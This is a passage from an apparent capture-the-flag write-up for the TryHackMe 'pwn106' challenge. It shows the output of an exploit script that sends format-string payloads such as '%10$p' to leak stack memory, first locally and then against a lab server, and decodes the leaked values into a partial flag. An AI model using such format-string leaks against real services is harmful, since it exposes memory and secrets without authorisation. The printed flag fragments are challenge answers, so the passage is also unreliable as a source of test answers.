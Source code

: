 ```
6: b'0x5b5858587b4d4854\n'
b'THM{XXX['
[*] Stopped process './pwn106user.pwn106-user' (pid 25805)
[+] Starting local process './pwn106user.pwn106-user': pid 25807
7: b'0x6465725f67616c66\n'
b'flag_red'
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25807)
[+] Starting local process './pwn106user.pwn106-user': pid 25809
8: b'0x58585d6465746361\n'
b'acted]XX'
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25809)
[+] Starting local process './pwn106user.pwn106-user': pid 25811
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25811)
[[------------------------------SNIP---------------------------------------]
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25991)
97: b'0x7fffec3d5883\n'
b'\x83X=\xec\xff\x7f'
[+] Starting local process './pwn106user.pwn106-user': pid 25993
98: b'0x7fffc604788e\n'
b'\x8ex\x04\xc6\xff\x7f'
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25993)
[+] Starting local process './pwn106user.pwn106-user': pid 25995
99: b'0x7ffe5bbf38d1\n'
b'\xd18\xbf[\xfe\x7f'
[*] Process './pwn106user.pwn106-user' stopped with exit code 0 (pid 25995)
[*] THM{XXX[flag_redacted]XXX}%10$p
    \x10    Ijx\x7f@бD
    \x00\x00    \x7f8
```

We see that the flag is redacted `THM{XXX[flag_redacted]XXX}` 

Now i'll run it on the remote server

```
└─$ python3 exploit.py REMOTE 10.10.146.62 9006 
[+] Opening connection to 10.10.146.62 on port 9006: Done
0: b'%0$p\n'
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
1: b'0x7ffd059b56e0\n'
b'\xe0V\x9b\x05\xfd\x7f'
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
2: b'0x7eff44e608c0\n'
b'\xc0\x08\xe6D\xff~'
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
4: b'0x8\n'
b'\x08'
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
5: b'0x7f0717fb94c0\n'
b'\xc0\x94\xfb\x17\x07\x7f'
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
6: b'0x5f5530797b4d4854\n'
b'THM{y0U_'
[*] Closed connection to 10.10.146.62 port 9006
[+] Opening connection to 10.10.146.62 on port 9006: Done
7: b'0x5f3368745f6e3077\n'
b'w0n_th3_'
```